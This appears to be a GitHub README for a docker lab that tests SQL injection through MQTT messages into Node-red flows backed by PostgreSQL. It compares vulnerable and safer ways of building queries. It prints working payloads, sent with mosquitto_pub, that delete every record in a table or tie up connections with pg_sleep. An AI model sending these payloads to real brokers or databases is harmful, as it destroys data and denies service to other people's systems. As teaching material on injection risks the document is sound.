 # Avoiding SQL Injections: MQTT + Node-red + SQL database.

## Introduction

I needed to implement an escalable flow from MQTT messages to a SQL database using Node-red, in order to adapt an embedded solution to an infrastructure currently used by the client.

The following research consists in testing sql injections via MQTT using mosquitto, node-red and PostgreSQL but it can be extended to other implementations.

I explored differents node-red flows implementations found on internet. The messesges are received via MQTT broker, processed in node-red and stored on a SQL database.

I noticed that security on MQTT is not taken seriosly as http/web ones. There are a lots of free and open brokers where some attacker can view messages and try some injections.

After testing against sql injections, I will present some vulnerable scenarios, mitigations and good implementations.

The laboratory provided in this repository requires docker-compose, and instantiates three containers:
* Mosquitto broker without authentication exposed on port 1884
* Node-red without authentication exposed in port 1881
* Postgresql with with a testing database smr exposed in port 5433., accesed with user:smmruser, and password:smmruser00

## Starting environment

You need to install mosquitto or mosquitto_client on your computer.

For each test, you can reset and start a fresh scenario by stopping (CTRL-C on docker-compose terminal) and running again:

```
docker-compose up -V
```

After the containers started, you can connect to the database running the following command and using 'smmruser00' as password:

```
psql -h localhost -p 5433 -U smmruser -d smr
```

Once connected to the database, you can check the initial 10 records in the table smr.air by running:

```
select * from smr.air;

```

You will get:
```
smr=# select * from smr.air;
 device |         ts          | lat | long | alt | sensor | co2 | tvoc | temp  |  hum  |   pres    |        imported_on         
--------+---------------------+-----+------+-----+--------+-----+------+-------+-------+-----------+----------------------------
 bme680 | 2021-04-18 00:00:01 |     |      |     | co2    | 765 |    1 |  35.1 | 40.58 |    101451 | 2021-04-17 21:00:01.008461
 bme680 | 2021-04-18 00:00:02 |     |      |     | co2    | 764 |    1 | 35.09 | 40.61 |    101455 | 2021-04-17 21:00:02.009756
 bme680 | 2021-04-18 00:00:03 |     |      |     | co2    | 768 |    1 |  35.1 | 40.58 |    101453 | 2021-04-17 21:00:03.009452
 bme680 | 2021-04-18 00:00:04 |     |      |     | co2    | 772 |    1 | 35.09 | 40.62 |    101451 | 2021-04-17 21:00:04.013557
 bme680 | 2021-04-18 00:00:05 |     |      |     | co2    | 772 |    1 | 35.09 | 40.62 |    101451 | 2021-04-17 21:00:05.009002
 ccs811 | 2021-04-18 00:00:01 |     |      |     | co2    | 413 |    1 | 30.81 |  61.8 | 101483.88 | 2021-04-17 21:00:00.846486
 ccs811 | 2021-04-18 00:00:02 |     |      |     | co2    | 418 |    2 | 30.81 |  61.8 | 101480.47 | 2021-04-17 21:00:01.8454
 ccs811 | 2021-04-18 00:00:03 |     |      |     | co2    | 418 |    2 |  30.8 |  61.8 |  101479.3 | 2021-04-17 21:00:02.851117
 ccs811 | 2021-04-18 00:00:04 |     |      |     | co2    | 415 |    2 |  30.8 |  61.8 | 101480.59 | 2021-04-17 21:00:03.845351
 ccs811 | 2021-04-18 00:00:05 |     |      |     | co2    | 406 |    0 |  30.8 |  61.8 | 101481.78 | 2021-04-17 21:00:04.848899
```

Optionaly, you can connnect to http://localhost:1881 to interact in Node-red web gui and play around with each implementation.

After you got the lab running, you can run each test by running the apropiate mosquitto client commands.

## Test 1: CSV + JS concatenation

![Test 1](assets/test1.png)

This is the more basic aproach, we receive a comma separated value message, then we construct the query concatenating the values and feed the PosgreSQL node.

![Test 1 code](assets/test1_code.png)

I was very surprised reading this aproach on lot of blogs and forums without noticing the security issues involved.

In a normal use, you can simulate a message running the following command on your host machine:

```
mosquitto_pub -h localhost -p 1884 -t test1 -m "ccs811,2021-04-18 01:33:57,,,,co2,1559,212,31.61,59.83,101543.27"
```

You can now verify, that there are 11 records on the table with the query command described previosly.

After running the following simple attack you can verify that all records were deleted on the database.

```
mosquitto_pub -h localhost -p 1884 -t test1 -m "ccs811,2021-04-18 01:33:57,,,,co2,1559,212,31.61,59.83,101543.27); delete from smr.air--"
```

Of course there is no reflection neither a blind response on this injection, so you can't guess the table name. I choosed this payload for academic purpose, but there are lots of payloads from testing for admin privileges, using postgresql functions, etc.

For example you can use pg_sleep to prevent the transaction from being commited inmediately, and get the thread and connection resource blocked in an iddle state for x seconds.

```
mosquitto_pub -h localhost -p 1884 -t test1 -m "ccs811,2021-04-18 01:33:57,,,,co2,1559,212,31.61,59.83,101543.27); select pg_sleep(60)--"
```

Abusing with multiple use of this payload may get a denial of service.

## Test 2: CSV + Template block

The second aproach I found googling is using the Template node:

![Test 2](assets/test2.png)

![Test 2 code](assets/test2_code.png)

You can try the same MQTT messages on previous test but on topic test2 instead. You will get the same results.

## Test 3: SQLString Node

![Test 2](assets/test3.png)

Is an optional node-red module already installed on the lab:
It works well on strings, but if you need to store numeric values you need to cast them.

![Test 3 code](assets/test3_code.png)

This aproach handles all parameters as strings, then does quote escaping ('co2'' as 'co2\'') and finally construct the query.
You can't use the dollar sign quote or other bypass techniques as it handles all the columns as strings adding two final quotes.

Is not efficient because all the numeric values are treated as strings, so you need to cast them again to numeric.

An attempt to an injection may cause some logging overloads. Nothing serious.

I did not got an sql injection with this implementation.

## Test 4: JSON + JS concatenation

![Test 4](assets/test4.png)

Similar as the first case, but when I tried it, I was wondering if the json block will do some sanity checks. Unfortunately not.

```
mosquitto_pub -h localhost -p 1884 -t test4 -m '{"device":"ccs811","ts":"2021-04-18 01:33:57","sensor":"co2","co2":1559,"tvoc":212,"temp":31.61,"hum":59.83,"pres":101543.27}'
```



```
mosquitto_pub -h localhost -p 1884 -t test4 -m '{"device":"ccs811","ts":"2021-04-18 01:33:57","sensor":"co2","co2":1559,"tvoc":212,"temp":31.61,"hum":59.83,"pres":"101543.27);delete from smr.air --"}'
```

## Some of the resources

